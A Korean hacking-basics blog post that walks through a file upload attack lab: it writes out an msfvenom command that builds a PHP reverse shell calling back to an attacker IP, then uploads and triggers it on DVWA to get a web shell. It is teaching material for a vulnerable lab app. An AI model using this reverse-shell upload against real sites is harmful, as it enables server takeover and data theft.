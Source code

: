 ```yaml
---
layout: post
title: '[해킹 기초] 8. 파일업로드 취약점 공격'
date: '2022-12-30 11:59:10 +0900'
description: '파일업로드 취약점'
categories: [HACKING,HACKING - Part.2]
image: /assets/img/1/hacking.png
tags: [hacking]
toc: true
---
```

<a text-size="1px" target="_blank" href="https://icons8.com/icon/5503/hacking">Hacking</a> icon by <a target="_blank" href="https://icons8.com">Icons8</a>

### <b>■ 파일업로드 취약점이란?</b>
파일을 업로드 할 수 있는 웹 사이트에 확장자 필터링이 미흡할 경우, 공격자가 악성 파일을 업로드하여 웹 쉘을 장악할 수 있는 취약점이다.

### <b>■ 파일업로드 취약점 공격 실습</b>
- [실습 환경]
    - Virtual Box(Kali Linux)
    - Virtual Box(DVWA) -공격 대상

파일업로드 취약점 공격을 할 때 악성 코드는 kali linux에 Msfvenom을 사용할 것이다.
여기서 Msfvenom은 공격할 때 사용하는 악성 쉘 코드를 만들어주는 기능을 한다.

<img src="/assets/img/hacking/part2-2/1.png" alt="표사진"><br>

&#35; msfvenom -p php/reverse_php LHOST=[Listen하는 IP 즉 공격자 IP] LPORT=7777 -f raw > shell.php
ex) &#35; msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=7777 -f raw > shell.php<br>
- -p php/reverse_php: 악성 페이로드를 뜻하고 reverse_php 사용한다고 정의했다. reverse_php는 reverse shell 이 포함된 php이다.
 - 여기서 페이로드는 전송되는 데이터를 뜻하고 reverse 쉘은 공격자가 리스닝을 하고 클라이언트가 접속하는 형태를 말한다. 그래서 LHOST에 공격자 IP를 넣는다.
- -LHOST : 위에서 말했듯이 reverse shell 공격이므로 리스닝 하고 있는 호스트를 의미한다.
- -LPORT : Listen Port 7777번 포트를 연다는 의미이다. 
- -f raw : 출력 파일 포맷을 의미하고 shell.php로 악성코드를 저장한다는 의미이다.

위 명령어로 shell.php파일을 만들었으면 이제 공격자 PC에서 포트를 열어주자. 포트를 열어야 클라이언트가 접속할 수 있기 때문이다.<br>
<img src="/assets/img/hacking/part2-2/6.png" alt="표사진"><br>

포트까지 잘 열었으면 이제 업로드 하러 가보자.<br>

<img src="/assets/img/hacking/part2-2/2.png" alt="표사진"><br>
DVWA 사이트에 들어가서 security를 low로 설정해준뒤 왼쪽 메뉴에서 Upload로 들어간다.

<img src="/assets/img/hacking/part2-2/3.png" alt="표사진"><br>
Upload 페이지에 들어가서 Browse를 클릭해서 위에서 만든 shell.php를 업로드 해준다.

<img src="/assets/img/hacking/part2-2/4.png" alt="표사진"><br>
업로드를 했으면 Upload 버튼 아래에 ../../hackable/uploads/ 경로에 shell.php 파일이 잘 업로드 됐다고 나온다.

<img src="/assets/img/hacking/part2-2/5.png" alt="표사진"><br>
../../hackable/uploads/shell.php 경로를 복사한 뒤 현재 페이지 주소 뒤에 붙여넣는다.

<img src="/assets/img/hacking/part2-2/7.png" alt="표사진"><br>
주소에 위 경로를 붙여넣고 아까 nc 명령어를 실행한 cmd 창으로 가면 위와 같이 연결됐다고 나온다. 여기서 공격자가 웹 쉘을 획득한 것이다.

<img src="/assets/img/hacking/part2-2/8.png" alt="표사진"><br>
위와 같이 웹 쉘을 획득한 상태에서 피해자 컴퓨터에 명령어 사용이 가능한다. 여러 명령어를 사용해 피해자 컴퓨터를 조종할 수 있으며 여러 중요한 파일들도 볼 수 있다.